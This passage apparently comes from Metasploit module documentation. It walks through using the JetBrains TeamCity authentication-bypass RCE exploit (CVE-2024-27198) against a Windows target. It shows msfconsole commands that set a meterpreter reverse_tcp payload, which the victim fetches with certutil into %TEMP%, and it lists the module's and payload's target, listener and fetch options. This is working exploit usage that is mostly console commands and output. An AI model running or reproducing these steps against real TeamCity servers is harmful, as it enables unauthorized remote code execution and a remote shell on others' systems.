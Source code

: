 ### Windows Command

Note: Ensure the target is a Windows target by confirming via the `check` command.

Note: Ensure the `FETCH_COMMAND` is set to a suitable value, such as `CERTUTIL`.

Note: Ensure the `FETCH_WRITABLE_DIR` is set to a suitable value, such as `%TEMP%`.

```
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set target 2
target => 2
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set payload cmd/
Display all 623 possibilities? (y or n)
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.68    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              8111             yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      qaZbVnKb         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Windows Command



View the full module info with the info, or info -d command.

```